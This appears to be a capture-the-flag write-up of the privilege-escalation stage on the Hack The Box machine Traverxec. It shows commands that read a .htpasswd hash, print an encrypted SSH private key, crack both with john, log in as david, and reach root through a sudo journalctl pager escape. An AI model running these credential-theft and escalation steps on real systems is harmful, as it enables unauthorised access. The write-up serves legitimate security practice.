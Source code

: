 # 15 - PrivEsc

```
www-data@traverxec:/var/nostromo$ find .  -type f | grep -v 'img\|lib'
./logs/nhttpd.pid
./conf/mimes
./conf/.htpasswd
./conf/nhttpd.conf
./icons/dir.gif
./icons/file.gif
./htdocs/js/main.js
./htdocs/css/style.css
./htdocs/empty.html
./htdocs/index.html
./htdocs/Readme.txt
www-data@traverxec:/var/nostromo$ cat ./conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

.htpasswd contains a hash. 


# Cracked
```
┌─[user@parrot]─[10.10.14.14]─[~/htb/traverxec]
└──╼ $ john hash  -w=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:03:10 29.24% (ETA: 20:46:19) 0g/s 22653p/s 22653c/s 22653C/s rayjay217..rayheem16
Nowonly4me       (?)
1g 0:00:07:51 DONE (2021-08-24 20:43) 0.002119g/s 22424p/s 22424c/s 22424C/s Noyoudo..Novaem
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Too bad it is a useless password.

# public_www
```
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf 
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

Conf directory contains another interesting file, which reveals another directory.

# Files
```
www-data@traverxec:/var/nostromo/conf$ ls -l /home/david
ls: cannot open directory '/home/david': Permission denied
www-data@traverxec:/var/nostromo/conf$ ls -l /home/david/public_www
total 8
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
```

Protected file area sounds like we're on the right track. The first command failed because www-data doesn't have *access* permission on /home/david/


# Key
```bash
www-data@traverxec:/dev/shm$ tar xvf backup-ssh-identity-files.tgz 
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
www-data@traverxec:/dev/shm$ cat home/david/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
dTRqVqTnP7zI8GyKTV+KNgA0m7UWQNS+JgqvSQ9YDjZIwFlA8jxJP9HsuWWXT0ZN
6pmYZc/rNkCEl2l/oJbaJB3jP/1GWzo/q5JXA6jjyrd9xZDN5bX2E2gzdcCPd5qO
xwzna6js2kMdCxIRNVErnvSGBIBS0s/OnXpHnJTjMrkqgrPWCeLAf0xEPTgktqi1
Q2IMJqhW9LkUs48s+z72eAhl8naEfgn+fbQm5MMZ/x6BCuxSNWAFqnuj4RALjdn6
i27gesRkxxnSMZ5DmQXMrrIBuuLJ6gHgjruaCpdh5HuEHEfUFqnbJobJA3Nev54T
fzeAtR8rVJHlCuo5jmu6hitqGsjyHFJ/hSFYtbO5CmZR0hMWl1zVQ3CbNhjeIwFA
bzgSzzJdKYbGD9tyfK3z3RckVhgVDgEMFRB5HqC+yHDyRb+U5ka3LclgT1rO+2so
uDi6fXyvABX+e4E4lwJZoBtHk/NqMvDTeb9tdNOkVbTdFc2kWtz98VF9yoN82u8I
Ak/KOnp7lzHnR07dvdD61RzHkm37rvTYrUexaHJ458dHT36rfUxafe81v6l6RM8s
9CBrEp+LKAA2JrK5P20BrqFuPfWXvFtROLYepG9eHNFeN4uMsuT/55lbfn5S41/U
rGw0txYInVmeLR0RJO37b3/haSIrycak8LZzFSPUNuwqFcbxR8QJFqqLxhaMztua
4mOqrAeGFPP8DSgY3TCloRM0Hi/MzHPUIctxHV2RbYO/6TDHfz+Z26ntXPzuAgRU
/8Gzgw56EyHDaTgNtqYadXruYJ1iNDyArEAu+KvVZhYlYjhSLFfo2yRdOuGBm9AX
JPNeaxw0DX8UwGbAQyU0k49ePBFeEgQh9NEcYegCoHluaqpafxYx2c5MpY1nRg8+
XBzbLF9pcMxZiAWrs4bWUqAodXfEU6FZv7dsatTa9lwH04aj/5qxEbJuwuAuW5Lh
hORAZvbHuIxCzneqqRjS4tNRm0kF9uI5WkfK1eLMO3gXtVffO6vDD3mcTNL1pQuf
SP0GqvQ1diBixPMx+YkiimRggUwcGnd3lRBBQ2MNwWt59Rri3Z4Ai0pfb1K7TvOM
j1aQ4bQmVX8uBoqbPvW0/oQjkbCvfR4Xv6Q+cba/FnGNZxhHR8jcH80VaNS469tt
VeYniFU/TGnRKDYLQH2x0ni1tBf0wKOLERY0CbGDcquzRoWjAmTN/PV2VbEKKD/w
-----END RSA PRIVATE KEY-----
```

www-data does not have permissions to write to public_www, I moved the backup archive to /dev/shm to extract the contents. The private key is encrypted, hopefully we can crack it with john.


# Passphrase cracked
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/traverxec]
└──╼ $ python2 /usr/share/john/ssh2john.py traverxec  >> hash
┌─[user@parrot]─[10.10.14.14]─[~/htb/traverxec]
└──╼ $ john hash -w=/usr/share/wordlists/rockyou.txt  --format=ssh
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (traverxec)
```

Now we know the passphrase. Let us try to log in through ssh.


# Shell
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/traverxec]
└──╼ $ ssh -l david -i traverxec  10.10.10.165
Enter passphrase for key 'traverxec': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ 
```




# server-stats.sh
```bash
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

Although we can't list the allowed commands for the user david, from the script I assume that sudo *nopasswd* tag is set on journalctl.


# Output goes to stdout by default
![](vx_images/4766604449572.png)

One thing to note is that journalctl uses a pager to view the output. In pager mode, user can execute code. Journalctl uses less(1) or more(1) as a pager. I think it is using more(1) because the output is dumped to stdout right away. We can invoke the pager by shrinking the screen size.


# Smaller window invokes the pager
![](vx_images/1879094651974.png)

Now we are in pager mode.


# Root
![](vx_images/1017828256738.png)